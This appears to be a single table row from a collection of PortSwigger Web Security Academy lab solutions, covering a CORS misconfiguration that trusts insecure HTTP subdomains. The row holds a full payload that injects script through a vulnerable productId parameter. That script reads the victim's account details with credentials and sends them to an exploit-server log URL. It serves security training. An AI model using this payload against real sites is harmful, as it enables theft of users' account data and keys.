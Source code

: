 |66    |CORS vulnerability with trusted insecure protocols                                                                       |<script>     document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1" </script>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |added header Origin: http://subdomain.lab-id where lab-id is the lab domain name. Observe that the origin is reflected in the https://portswigger.net/web-security/cors/access-control-allow-origin header, confirming that the CORS configuration allows access from arbitrary subdomains, both HTTPS and HTTP. productID parameter is vulnerable to XSS. This is seen when clicking ‘Check stock’, and it is loaded on a HTTP URL subdomain.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |CORS, Practitioner                          |